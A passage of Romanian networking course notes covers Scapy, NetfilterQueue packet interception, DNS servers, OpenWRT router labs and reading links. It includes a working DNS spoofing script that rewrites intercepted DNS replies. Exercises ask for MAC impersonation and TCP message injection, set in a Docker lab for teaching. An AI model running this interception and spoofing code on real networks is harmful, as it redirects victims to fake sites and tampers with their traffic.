    print (answered[ARP].hwsrc)
else:
    print ("Nu a putut fi gasita")  
```

În felul acesta putem interoga device-urile din rețea și adresele MAC corespunzătoare. Putem folosi scapy pentru a trimite un broadcast întregului subnet dacă setăm `pdst` cu valoarea subnetului `net`. 

<a name="exercitii"></a> 
## Exerciții
1. Urmăriți mai multe exemple din scapy [aici](https://scapy.readthedocs.io/en/latest/usage.html#simple-one-liners)
2. Implementați un cod care interoghează constant rețeaua și stochează toate adresele fizice ale vecinilor de-a lungul timpului. În cazul în care un vecin nu există pe rețea, impersonați-l trimițând frame-uri care au adresa fizică sursă a sa.

# Capitolul 6 - Packet Manipulation

## Cuprins
- [Requrements](#intro)
- [Intercept Packages](#scapy_nfqueue)
    - [Intercepting Packets](#scapy_nfqueue_basic)
    - [Block Intercepted Packets](#scapy_nfqueue_block)
- [Exemple de protocoale în Scapy](#scapy)
  - [Domain Name System (DNS)](#scapy_dns)
    - [DNS Request](#scapy_dns_request)
    - [Micro DNS Server](#scapy_dns_server)
    - [DNS Spoofing](#scapy_dns_spoofing)
- [Exerciții](#exercitii)


<a name="intro"></a> 
## Introducere
**Important:** continuăm cu aceeași configurație ca în capitolul3 și urmărim secțiunea introductivă de acolo.
```
cd computer-networks

# ștergem toate containerele create default
docker-compose down

# ștergem rețelele create anterior ca să nu se suprapună cu noile subnets
docker network prune

# lucrăm cu docker-compose.yml din capitolul3
cd capitolul3
docker-compose up -d

# sau din directorul computer-networks: 
# docker-compose -f capitolul3/docker-compose.yml up -d
```


<a name="scapy_nfqueue"></a>
## [Netfilter Queue](https://pypi.org/project/NetfilterQueue/)
Pentru a modifica pachetele care circulă live pe rețeaua noastră, putem folosi librăria [NetfilterQueue](https://netfilter.org/projects/libnetfilter_queue/) care stochează pachetele într-o coadă. La citirea din coadă, pachetele pot fi acceptate (`packet.accept()`) pentru a fi transmise mai departe sau pot fi blocate (`packet.drop()`). În cazul în care dorim să le alterăm în timp real, putem folosi șiruri de octeți pentru a seta payload: `packet.set_payload(bytes(scapy_packet))`, unde payload reprezintă întregul pachet sub formă binară.
Mai multe exemple puteți găsi [în extensia de python](https://pypi.org/project/NetfilterQueue/).
Pentru a folosi librăria, trebuie să adăugăm o regulă în firewall-ul iptables prin care să redirecționăm toate pachetele către o coadă `NFQUEUE` cu un id specific. Acest lucru se poate face din shell:
```bash
# toate pachetele de la input se redirectioneaza catre coada 5
iptables -I INPUT -j NFQUEUE --queue-num 5
# toate pachetele spre output
iptables -I OUTPUT -j NFQUEUE --queue-num 5
# toate pachetele care sunt forwardate
iptables -I FORWARD -j NFQUEUE --queue-num 5


# stergem regula prin
iptables -D FORWARD 1
```
sau din python:
```python
import os
os.system("iptables -I INPUT -j NFQUEUE --queue-num 5")
```

<a name="scapy_nfqueue_basic"></a>
### Intercepting Packets
Setăm regula de iptables în funcție de locația de unde interceptăm pachete, dacă suntem pe aceiași mașină, rulăm redirecționarea pachetelor de la INPUT sau OUTPUT iar dacă suntem pe container router sau middle care au ca scop forwardarea pachetelor, folosim regula de FORWARD.

```python
from scapy.all import *
from netfilterqueue import NetfilterQueue as NFQ
import os
```

Construim o funcție care modifică layer-ul de IP dintr-un pachet și setează tos = 3. Pentru end-points care au ECN enabled, acest număr setează biții de congestionare pe 11 care indică faptul că există o congestionare a rețelei.
```python
def alter_packet(pachet):
    '''Implementați asta ca exercițiu.
    # !atentie, trebuie re-calculate campurile len si checksum
    '''
    if pachet.haslayer(IP):        
        del pachet[IP].chksum
        del pachet[IP].len
        # pentru a obtine din nou len si chksum, facem rebuild
        # se face automat, de catre scapy
        # pachet = IP(pachet.build())
    return pachet
```

Construim o funcție care va fi apelată pentru fiecare pachet din coada NFQUEUE. În cadrul acestei funcții se apelează alter_packet care are ca scop modificarea conținutului pachetului în tranzit.
```python
def proceseaza(pachet):
    octeti = pachet.get_payload()
    scapy_packet = IP(octeti)
    print("Pachet inainte: ")
    scapy_packet.show()
    scapy_packet = alter_packet(scapy_packet)
    print("Pachet dupa: ")
    scapy_packet.show()
    pachet.set_payload(bytes(scapy_packet))
    pachet.accept()
```

Executăm comanda de iptables si bucla infită pe NFQUEUE.
```python
queue = NFQ()
try:
    os.system("iptables -I FORWARD -j NFQUEUE --queue-num 5")
    queue.bind(5, proceseaza)
    queue.run()
except KeyboardInterrupt:
    queue.unbind()

```

<a name="scapy_nfqueue_block"></a>
### Blocarea unui IP
Ne atașăm containerului router:
```bash
docker-compose exec router bash
```

Dintr-un terminal de python sau dintr-un fișier rulăm:

```python
from scapy.all import *
from netfilterqueue import NetfilterQueue as NFQ
import os
def proceseaza(pachet):
    # octeti raw, ca dintr-un raw socket
    octeti = pachet.get_payload()
    # convertim octetii in pachet scapy
    scapy_packet = IP(octeti)
    scapy_packet.summary()
    if scapy_packet[IP].src == '198.10.0.2':
        print("Drop la: ", scapy_packet.summary())
        pachet.drop()
    else:
        print("Accept la: ", scapy_packet.summary())
        pachet.accept()

queue = NFQ()
try:
    os.system("iptables -I INPUT -j NFQUEUE --queue-num 5")
    # bind trebuie să folosească aceiași coadă ca cea definită în iptables
    queue.bind(5, proceseaza)
    queue.run()
except KeyboardInterrupt:
    queue.unbind()
```

Într-un alt terminal ne atașăm containerului server:
```bash
docker-compose exec server bash
# nu va mai merge
ping router 
```


<a name="scapy"></a> 
## [Exemple de protocoale în Scapy](https://scapy.readthedocs.io/en/latest/usage.html#starting-scapy)

<a name="scapy_dhcp"></a> 
### [Dynamic Host Configuration Protocol](http://www.ietf.org/rfc/rfc2131.txt) si [BOOTP](https://tools.ietf.org/html/rfc951)
- [bootstrap protocol](https://en.wikipedia.org/wiki/Bootstrap_Protocol) a fost înlocuit de [Dynamic Host Configuration Protocol](https://en.wikipedia.org/wiki/Dynamic_Host_Configuration_Protocol#Operation) pentru asignarea de adrese IPv4 automat device-urilor care se conectează pe rețea
- pentru cerere de IP flow-ul include pașii pentru discover, offer, request și ack
- container de docker [aici](https://github.com/networkboot/docker-dhcpd)
- [exemplu de cod scapy aici](https://github.com/senisioi/computer-networks/blob/2021/capitolul3/src/examples/dhcp.py)


<a name="scapy_dns"></a> 
### [Domain Name System](https://dnsmonitor.com/dns-tutorial-1-the-basics/)

DNS este un protocol la nivelul aplicației care este standardizat pentru UDP, port 53. Acesta se bazează pe request-response iar în cazul în care nu se primesc răspunsuri după un număr de reîncercări (de multe ori 2), programul anunță că nu poate găsi IP-ul pentru hostname-ul cerut ("can't resolve"). Headerul protocolului [este definit aici](http://www.networksorcery.com/enp/protocol/dns.htm).


<a name="scapy_dns_request"></a> 
#### Exemplu DNS request
```python
from scapy.all import *

# DNS request către google DNS
ip = IP(dst = '8.8.8.8')
transport = UDP(dport = 53)

# rd = 1 cod de request
dns = DNS(rd = 1)

# query pentru a afla entry de tipul 
dns_query = DNSQR(qname=b'fmi.unibuc.ro.', qtype=1, qclass=1)
dns.qd = dns_query

answer = sr1(ip / transport / dns)
print (answer[DNS].summary())
```

<a name="scapy_dns_server"></a> 
#### Micro DNS Server
Putem scrie un mic exemplu de aplicație care să funcționeze ca DNS care returnează [DNS A records](https://support.dnsimple.com/articles/a-record/). DNS rulează ca UDP pe portul 53:
```python
simple_udp = socket.socket(socket.AF_INET, socket.SOCK_DGRAM, proto=socket.IPPROTO_UDP)
simple_udp.bind(('0.0.0.0', 53))

while True:
    request, adresa_sursa = simple_udp.recvfrom(65535)
    # converitm payload-ul in pachet scapy
    packet = DNS(request)
    dns = packet.getlayer(DNS)
    if dns is not None and dns.opcode == 0: # dns QUERY
        print ("got: ")
        print (packet.summary())
        dns_answer = DNSRR(      # DNS Reply
           rrname=dns.qd.qname, # for question
           ttl=330,             # DNS entry Time to Live
           type="A",            
           rclass="IN",
           rdata='1.1.1.1')     # found at IP: 1.1.1.1 :)
        dns_response = DNS(
                          id = packet[DNS].id, # DNS replies must have the same ID as requests
                          qr = 1,              # 1 for response, 0 for query 
                          aa = 0,              # Authoritative Answer
                          rcode = 0,           # 0, nicio eroare http://www.networksorcery.com/enp/protocol/dns.htm#Rcode,%20Return%20code
                          qd = packet.qd,      # request-ul original
                          an = dns_answer)     # obiectul de reply
        print('response:')
        print (dns_response.summary())
        simple_udp.sendto(bytes(dns_response), adresa_sursa)
simple_udp.close()
```

Testați-l cu
```bash
dig @localhost fmi.unibuc.ro
```

<a name="scapy_dns_spoofing"></a> 
#### DNS Spoofing
Dacă intermediem conexiunea între două noduri, putem insera răspunsuri DNS malițioase cu scopul de a determina userii să acceseze pagini false. Pe linux, un DNS customizabil se poate set prin fișierul `/etc/resolv.conf` sau ca în [exemplul de aici](https://unix.stackexchange.com/questions/128220/how-do-i-set-my-dns-when-resolv-conf-is-being-overwritten)).

Presupunem că folosim configurația de containere definită în acest capitol, că ne aflăm pe containerul `router` și că monitorizăm toate cererile containerul `server`. În cazul în care observăm un pachet UDP cu portul destinație 53 (e.g., IP destinație 8.8.8.8), putem încerca să trimitem un reply care să pară că vine de la DNS (8.8.8.8) cu o adresă IP falsă care nu apraține numelui interogat de către server. 
E posibil ca reply-ul nostru să ajungă la containerul `server`, dar și reply-ul serverul DNS original (8.8.8.8) să ajungă tot la container. Pentru ca atacul să fie cât mai lin, cel mai sigur este să modificăm live răspunsurile DNS-ului original (8.8.8.8) după următoarele instrucțiuni ([sursa originală](https://www.thepythoncode.com/article/make-dns-spoof-python)):

##### 1. iptables forward către nfqueue
Ne atașăm containerului `router` pentru a ataca containerul `server`. Construim o regulă de iptables prin care toate pachetele care trebuie forwardate (-I FORWARD) să treacă prin regula NFQUEUE cu număr de identificare 10 (putem alege orice număr).
```bash
docker-compose exec router bash

iptables -I FORWARD -j NFQUEUE --queue-num 10
```
##### 2. Scriem o funcție care detectează și modifică pachete de tip DNS reply
Deschidem un terminal de python sau executăm `python3 /elocal/capitolul3/src/examples/dns_spoofing.py`:
```python
#!/usr/bin/env python3

from scapy.all import *
from netfilterqueue import NetfilterQueue as NFQ
import os

def detect_and_alter_packet(packet):
    """Functie care se apeleaza pentru fiecare pachet din coada
    """
    octets = packet.get_payload()
    scapy_packet = IP(octets)
    # daca pachetul are layer de IP, UDP si DNSRR (reply)
    if scapy_packet.haslayer(IP) and scapy_packet.haslayer(UDP) and scapy_packet.haslayer(DNSRR):\
        # daca e site-ul fmi, apelam functia care face modificari
        if scapy_packet[DNSQR].qname == b'fmi.unibuc.ro.':
            print("[Before]:", scapy_packet.summary())
            # noul scapy_packet este modificat cu functia alter_packet
            scapy_packet = alter_packet(scapy_packet)
            print("[After ]:", scapy_packet.summary())
            # extragem octetii din pachet
            octets = bytes(scapy_packet)
            # il punem inapoi in coada modificat
            packet.set_payload(octets)
    # apelam accept pentru fiecare pachet din coada
    packet.accept()


def alter_packet(packet):
    # obtinem qname sau Question Name
    qname = packet[DNSQR].qname
    # construim un nou raspuns cu reply data
    packet[DNS].an = DNSRR(rrname=qname, rdata='1.1.1.1')
    # answer count = 1
    packet[DNS].ancount = 1
    # am modificat pachetul si stergem campurile len si checksum
    # in mod normal ar trebui recalculate, dar scapy face asta automat
    del packet[IP].len
    del packet[IP].chksum
    del packet[UDP].len
    del packet[UDP].chksum
    # returnam pachetul modificat
    return packet
```

##### 3. Executăm coada Netfilter cu funcția definită anterior
```python
queue = NFQ()
try:
    os.system("iptables -I FORWARD -j NFQUEUE --queue-num 10")
    # bind trebuie să folosească aceiași coadă ca cea definită în iptables
    queue.bind(10, detect_and_alter_packet)
    queue.run()
except KeyboardInterrupt:
    os.system("iptables --flush")
    queue.unbind()
```

Testați din containerul `server`: `docker-compose exec server bash -c "ping fmi.unibuc.ro"`

<a name="exercitii"></a> 
## Exerciții
1. Urmăriți mai multe exemple din scapy [aici](https://scapy.readthedocs.io/en/latest/usage.html#simple-one-liners)
2. Utilizați NetfilterQueue în containerul `router` pentru a intercepta pachete TCP dintre client și server și pentru a injecta mesaje suplimentare în comunicare.

# Capitolul X1

## Configurarea unui router virtual

În acest capitol vom utiliza [vrnetlab](https://github.com/plajjan/vrnetlab), un framework pentru crearea de containere docker cu imagini de routere virtuale. Acest lucru ne permite să depășim configurațiile de rețele LAN cu care am lucrat până acum, să pornim un container care să funcționeze ca router, să putem configura device-ul și să înțelegem ce presupun acești pași.

Puteți urmări mai multe detalii despre vrnetlab și în acest film pe youtube: https://youtu.be/R_vCdGkGeSk?t=9m25s sau în acest [tutorial](https://www.brianlinkletter.com/vrnetlab-emulate-networks-using-kvm-and-docker/).

### Instalarea vrnetlab
Această unealtă se găsește ca submodul în reporitoy-ul de git (vezi fișierul gitmodules). Pentru a avea acces la cod, trebuie să rulați:
```bash
git submodule update --init --recursive
```

Posibil ca scripturile din repo să nu funcționeze fără BeautifulSoup și lxml, cel mai bine instalați-l pe host:
```bash
pip3 install beautifulsoup4 lxml
``` 

Vom folosi [openwrt](https://openwrt.org/) un firmare open source pentru embedded devices, în cazul nostru un router. Intrați în directorul corespunzător, downloadați imaginea openwrt și rulați comanda `make build`:

```bash
cd vrnetlab/openwrt
wget https://downloads.openwrt.org/releases/18.06.2/targets/x86/64/openwrt-18.06.2-x86-64-combined-ext4.img.gz
make build
cd ../..
```
Comanda execută un script în python care downloadează imaginile necesare și construiește imaginea pentru docker. În cazul în care comanda returnează erori, este posibil ca framework-ul BeautifulSoup să nu fie instalat, puteți să îl instalați cu `pip3 install bs4
`. 

În cele ce urmează trebuie să instalăm [vr-xcon](https://github.com/plajjan/vrnetlab/tree/master/vr-xcon) un program containerizat care permite crearea de legături bine definite între noduri și topologii de rețele.

```bash
# pull din docker registry https://hub.docker.com/
docker pull vrnetlab/vr-xcon

# retag images cu varianta simplificata
docker tag vrnetlab/vr-xcon:latest vr-xcon
docker tag vrnetlab/vr-openwrt:18.06.2 openwrt
```

### Pornirea și configurarea routerelor

În directorul vrnetlab se găsește un script care definește nișe funcții de shell ce pot fi utilizate pentru configurare ușoară. Pentru a acea acces în terminalul vostru la aceste comenzi, treubie să rulați:

```bash
cd vrnetlab
source vrnetlab.sh
```
Putem crea două routere OpenWRT cu următoarea topologie și să testăm conexiunea dintre ele folosind ping


Putem porni routerele individual folosind `docker run` sau prin intermediul orchestratiei docker-compose.yml din capitolul4:
```bash
docker run -d --privileged --name openwrt1 openwrt
docker run -d --privileged --name openwrt2 openwrt
# sau
cd capitolul4
docker-compose up -d
```
Pentru a ne conecta la un router trebuie să folosim aplicația **telnet** pe portul 5000. Fie știm adresele IP ale containerelor din fisierul .yml sau le aflăm cu comanda: `docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' ID_CONTAINER` 


Conectarea la routerul openwrt1 se face prin telnet:
```bash
telnet 198.166.0.1 5000
# sau
vrcons capitolul4_openwrt1_1

Trying 198.166.0.1...
Connected to 198.166.0.1.
Escape character is '^]'.

Apasam Ctrl + ] si enter pentru a tasta comenzile urmatoare:
```

Conform documentației [openwrt](https://openwrt.org/docs/guide-user/base-system/basic-networking), configurația LAN se definește pe o interfață numită br-lan: `ifconfig br-lan`. Adresa IP a interfeței LAN este 10.0.0.15, dar configurația permanentă se definește prin:

```bash
uci show network.lan

# setam adresa IP pentru lan
uci set network.lan.ipaddr='10.0.0.15'

# configuram adresele IP pentru wan
uci show network.wan
uci set network.wan.proto='static'
uci set network.wan.ipaddr='10.10.10.1'
uci set network.wan.netmask='255.255.255.0'

# salvam modificarile retelei si dam restart
uci commit network
service network restart
```
Pentru a ieși din router tastăm `Ctrl+]` apoi `quit`.

Facem setări similare și pe routerul openwrt2:

```bash
telnet 198.166.0.2 5000

uci set network.lan.ipaddr='10.0.0.15'
uci set network.wan.proto='static'
uci set network.wan.ipaddr='10.10.10.2'
uci set network.wan.netmask='255.255.255.0'
uci commit network
service network restart
#  Ctrl+] apoi quit
```

### Conectarea routerelor
Comanda vrbridge este definită în scriptul vrnetlab/vrnetlab.sh și are ca rol pornirea unui container care prin vr-xcon care creează legăturile dintre cele două routere. Comanda are ca parametrii containerul1, interfața1, containerul2 și interfața 2:
```bash
vrbridge capitolul4_openwrt1_1 1 capitolul4_openwrt2_1 1
# echivalent cu:
docker run -d --privileged --name bridge-capitolul4_openwrt1_1-1-capitolul4_openwrt2_1-1 --net capitolul4_net --link capitolul4_openwrt1_1 --link capitolul4_openwrt2_1 vr-xcon --p2p capitolul4_openwrt1_1/1--capitolul4_openwrt2_1/1 --debug 
```

### Exercițiu - Testarea conexiunii 
Conectați-vă prin telnet la unul din routere și încercați să dați ping către celălalt router.

# Capitolul X2

### [Parctical routing attacks](https://microlab.red/2018/04/06/practical-routing-attacks-1-3-rip/)
- protocoale de rutare și câteva exemple de vulnerabilități ale acestora

### [IPSec](http://www.firewall.cx/networking-topics/protocols/870-ipsec-modes.html)
- criptare si securizarea datelor la nivelul IP
- puteti urmări [aici un exemplu](https://into.synaptics.ro/2019/scapy-examples-/-usage/) cu scapy

### [TLS/SSL folosind scapy](https://github.com/tintinweb/scapy-ssl_tls)
- [ce este TLS/SSL?](https://www.cloudflare.com/learning/ssl/what-happens-in-a-tls-handshake/)
- pe scurt [un video how SSL works](https://www.youtube.com/watch?v=iQsKdtjwtYI)
- [un tutorial aici](https://blog.talpor.com/2015/07/ssltls-certificates-beginners-tutorial/)
- util pentru testarea și manipularea pachetelor folosind SSL/TLS
- [aici](https://github.com/tintinweb/scapy-ssl_tls), un exemplu pentru [heartbleed](http://heartbleed.com/)
- un atac de hijacking sesiune TLS [prezentat aici](http://www.cs.virginia.edu/~dgg6b/book/ssl-tls-session-attacks.html)

### [Quick UDP Internet Connections](https://en.wikipedia.org/wiki/QUIC#cite_note-LWN-1)
- un protocol reliable, cu congestion control și criptare la nivelul transport
- documentația completă este prezentată [aici](https://docs.google.com/document/d/1RNHkx_VvKWyWg6Lr8SZ-saqsQx7rFV-ev2jRFUoVD34/edit)
-  [HTTP2 si QUIC video](https://www.youtube.com/watch?v=wCa5nylzJCo) și prezentare [vulnerabilitati](https://www.blackhat.com/docs/us-16/materials/us-16-Pearce-HTTP2-&-QUIC-Teaching-Good-Protocols-To-Do-Bad-Things.pdf) 
- [analiză comparativă vulnerabilități](https://www.ietf.org/proceedings/96/slides/slides-96-irtfopen-1.pdf)

### [HTTP layer folosind scapy](https://github.com/invernizzi/scapy-http)
- protocolul [HTTP](https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods) se regăsește la nivelul aplicație
- puteți folosi scapy pentru a crea requesturi complete către servicii web
- [HTTP2](https://github.com/secdev/scapy/blob/master/doc/notebooks/HTTP_2_Tuto.ipynb) notebook with scapy
 

### [MultiPath TCP](https://en.wikipedia.org/wiki/Multipath_TCP)
- [potential issues](https://www.youtube.com/watch?v=Ss2zmwzKG3k) and [presentation](https://www.blackhat.com/docs/us-14/materials/us-14-Pearce-Multipath-TCP-Breaking-Todays-Networks-With-Tomorrows-Protocols.pdf) 
- [scapy tools for MPTCP](https://github.com/Neohapsis/mptcp-abuse)
- [basics](http://www.diva-portal.org/smash/get/diva2:934158/FULLTEXT01.pdf)

Tanenbaum, Wetherall Computer Networks 5e
=========================================


Materiale online de curs:
- [carte pdf](http://www.uoitc.edu.iq/images/documents/informatics-institute/exam_materials/Computer%20Networks%20-%20A%20Tanenbaum%20-%205th%20edition.pdf)
- [sursa video lectures](https://media.pearsoncmg.com/ph/streaming/esm/tanenbaum5e_videonotes/tanenbaum_videoNotes.html)
- [Cursul lui Avinash Kak pe securitate](https://engineering.purdue.edu/kak/compsec/NewLectures/)
- [Computer Networks: A Systems Approach](https://book.systemsapproach.org/foundation.html)
- [Packet Crafting with Scapy](http://www.scs.ryerson.ca/~zereneh/cn8001/CN8001-PacketCraftingUsingScapy-WilliamZereneh.pdf)


## Cuprins
- [I. Introduction, Protocols and Layering](#intro)
- [II. Web and Content Distribution](#web)
- [III. Transport Layer, Reliable Transport](#trans)
- [IV. Congestion Control](#congestion)
- [V. Packet Forwarding and Internetworking](#forwarding)
- [VI. Routing](#routing)
- [VII. Link Layer, Part A pdf](#datalink_a)
- [VIII. Link Layer, Part B](#datalink_b)
- [IX. Physical Layer (optional)](#nivel_fizic)
- [X. Quality of Service](#qos)
- [XI. Network Security](#security)


<a name="intro"></a> 
Introduction, Protocols and Layering [capitolul în pdf](http://index-of.es/Varios-2/Computer%20Networks%205th%20Edition.pdf#page=25)
------------------------------------

[1-1 Goals and Motivation](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.1-1_Goals_and_Motivation__/ph/streaming/esm/tanenbaum5e_videonotes/1_1_goals_motivation_cn5e.m4v "1-1 Goals and Motivation")  
[1-2 Uses of Networks](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.1-2_Uses_of_Networks__/ph/streaming/esm/tanenbaum5e_videonotes/1_2_network_uses_cn5e.m4v "1-2 Uses of Networks")  
[1-3 Network Components](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.1-3_Network_Components__/ph/streaming/esm/tanenbaum5e_videonotes/1_3_network_components_cn5e.m4v "1-3 Network Components")  
[1-4 Sockets](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.1-4_Sockets__/ph/streaming/esm/tanenbaum5e_videonotes/1_4_sockets_cn5e.m4v "1-4 Sockets")  
[1-5 Traceroute](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.1-5_Traceroute__/ph/streaming/esm/tanenbaum5e_videonotes/1_5_traceroute_cn5e.m4v "1-5 Traceroute")  
[1-6 Protocols and Layers](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.1-6_Protocols_and_Layers__/ph/streaming/esm/tanenbaum5e_videonotes/1_6_protocol_layers_cn5e.m4v "1-6 Protocols and Layers")  
[1-7 Reference Models](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.1-7_Reference_Models__/ph/streaming/esm/tanenbaum5e_videonotes/1_7_reference_layers_cn5e.m4v "1-7 Reference Models")  
[1-8 History of the Internet](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.1-8_History_of_the_Internet__/ph/streaming/esm/tanenbaum5e_videonotes/1_8_internet_history_cn5e.m4v "1-8 History of the Internet"), [extra history](http://31.42.184.140/main/2656000/9229a40a166d6006a88f912d3859d673/Claire%20L.%20Evans%20-%20Broad%20band_%20the%20untold%20story%20of%20the%20women%20who%20made%20the%20Internet-Penguin%20Publishing%20Group%20%282018%29.epub)

[1-9 Lecture Outline](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.1-9_Lecture_Outline__/ph/streaming/esm/tanenbaum5e_videonotes/1_9_lecture_outline_cn5e.m4v "1-9 Lecture Outline")


<a name="web"></a>
Web and Content Distribution [capitolul în pdf](http://index-of.es/Varios-2/Computer%20Networks%205th%20Edition.pdf#page=670)
----------------------------

[8-1 Application Layer Overview](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.8-1_Application_Layer_Overview__/ph/streaming/esm/tanenbaum5e_videonotes/8_1_application_overview_cn5e.m4v "8-1 Application Layer Overview")  
[8-2 Domain Name System DNS, Part 1](https://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.8-2_Domain_Name_System_(DNS),_Part_1__/ph/streaming/esm/tanenbaum5e_videonotes/8_2_dns_cn5e.m4v)  
[8-3 Domain Name System DNS, Part 2](https://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.8-3_Domain_Name_System_(DNS),_Part%202__/ph/streaming/esm/tanenbaum5e_videonotes/8_3_dns_cn5e.m4v)  
[8-4 Introduction to HTTP](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.8-4_Introduction_to_HTTP__/ph/streaming/esm/tanenbaum5e_videonotes/8_4_http_cn5e.m4v "8-4 Introduction to HTTP")  
[8-5 HTTP Performance](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.8-5_HTTP_Performance__/ph/streaming/esm/tanenbaum5e_videonotes/8_5_http_performance_cn5e.m4v "8-5 HTTP Performance")  
[8-6 HTTP Caching and Proxies](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.8-6_HTTP_Caching_and_Proxies__/ph/streaming/esm/tanenbaum5e_videonotes/8_6_http_caching_cn5e.m4v "8-6 HTTP Caching and Proxies")  
[8-7 Content Delivery Networks (CDNs)](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.8-7_Content_Delivery_Networks_(CDNs)__/ph/streaming/esm/tanenbaum5e_videonotes/8_7_cdns_cn5e.m4v "8-7 Content Delivery Networks (CDNs)")  
[8-8 Future of HTTP](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.8-8_Future_of_HTTP__/ph/streaming/esm/tanenbaum5e_videonotes/8_8_http_future_cn5e.m4v "8-8 Future of HTTP")  
[8-9 Peer-to-Peer Content Delivery (BitTorrent)](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.8-9_Peer-to-Peer_Content_Delivery_(BitTorrent)__/ph/streaming/esm/tanenbaum5e_videonotes/8_9_p2p_cn5e.m4v "8-9 Peer-to-Peer Content Delivery (BitTorrent)")


<a name="trans"></a> 
Transport Layer, Reliable Transport [capitolul în pdf](http://index-of.es/Varios-2/Computer%20Networks%205th%20Edition.pdf#page=519)
-----------------------------------

[6-1 Transport Layer Overview](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.6-1_Transport_Layer_Overview__/ph/streaming/esm/tanenbaum5e_videonotes/6_1_transport_overview_cn5e.m4v "6-1 Transport Layer Overview")  
[6-2 User Datagram Protocol UDP](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.6-2_User_Datagram_Protocol%20(UDP)__/ph/streaming/esm/tanenbaum5e_videonotes/6_2_udp_cn5e.m4v)  
[6-3 Connection Establishment](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.6-3_Connection_Establishment__/ph/streaming/esm/tanenbaum5e_videonotes/6_3_connection_establish_cn5e.m4v "6-3 Connection Establishment")  
[6-4 Connection Release](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.6-4_Connection_Release__/ph/streaming/esm/tanenbaum5e_videonotes/6_4_connection_release_cn5e.m4v "6-4 Connection Release")  
[6-5 Sliding Window](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.6-5_Sliding_Window__/ph/streaming/esm/tanenbaum5e_videonotes/6_5_sliding_window_cn5e.m4v "6-5 Sliding Window")  
[6-6 Flow Control](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.6-6_Flow_Control__/ph/streaming/esm/tanenbaum5e_videonotes/6_6_flow_control_cn5e.m4v "6-6 Flow Control")  
[6-7 Retransmission Timeouts](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.6-7_Retransmission_Timeouts__/ph/streaming/esm/tanenbaum5e_videonotes/6_7_timeouts_cn5e.m4v "6-7 Retransmission Timeouts")  
[6-8 Transmission Control Protocol (TCP)](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.6-8_Transmission_Control_Protocol_(TCP)__/ph/streaming/esm/tanenbaum5e_videonotes/6_8_tcp_cn5e.m4v "6-8 Transmission Control Protocol (TCP)")

<a name="congestion"></a> 
Congestion Control [capitolul în pdf](http://index-of.es/Varios-2/Computer%20Networks%205th%20Edition.pdf#page=554)
------------------

[7-1 Congestion Overview](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.7-1_Congestion_Overview__/ph/streaming/esm/tanenbaum5e_videonotes/7_1_congestion_overview_cn5e.m4v "7-1 Congestion Overview")  
[7-2 Fairness of Allocations](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.7-2_Fairness_of_Allocations__/ph/streaming/esm/tanenbaum5e_videonotes/7_2_fairness_cn5e.m4v "7-2 Fairness of Allocations")  
[7-3 Additive Increase Multiplicative Decrease (AIMD)](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.7-3_Additive_Increase_Multiplicative_Decrease_(AIMD)__/ph/streaming/esm/tanenbaum5e_videonotes/7_3_aimd_cn5e.m4v "7-3 Additive Increase Multiplicative Decrease (AIMD)")  
[7-4 History of TCP Congestion Control](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.7-4_History_of_TCP_Congestion_Control__/ph/streaming/esm/tanenbaum5e_videonotes/7_4_tcp_history_cn5e.m4v "7-4 History of TCP Congestion Control")  
[7-5 ACK Clocking](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.7-5_ACK_Clocking__/ph/streaming/esm/tanenbaum5e_videonotes/7_5_ack_clock_cn5e.m4v "7-5 ACK Clocking")  
[7-6 TCP Slow-Start](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.7-6_TCP_Slow-Start__/ph/streaming/esm/tanenbaum5e_videonotes/7_6_slow_start_cn5e.m4v "7-6 TCP Slow-Start")  
[7-7 TCP Fast Retransmit / Fast Recovery](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.7-7_TCP_Fast_Retransmit_-_Fast_Recovery__/ph/streaming/esm/tanenbaum5e_videonotes/7_7_fast_recovery_cn5e.m4v "7-7 TCP Fast Retransmit / Fast Recovery")  
[7-8 Explicit Congestion Notification (ECN)](http://mediaplayer.pearsoncmg.com/_ph_cc_ecs_set.title.7-8_Explicit_Congestion_Notification_(ECN)__/ph/streaming/esm/tanenbaum5e_videonotes/7_8_ecn_cn5e.m4v "7-8 Explicit Congestion Notification (ECN)")


<a name="forwarding"></a> 
Packet Forwarding and Internetworking [capitolul în pdf](http://index-of.es/Varios-2/Computer%20Networks%205th%20Edition.pdf#page=379)
-------------------------------------

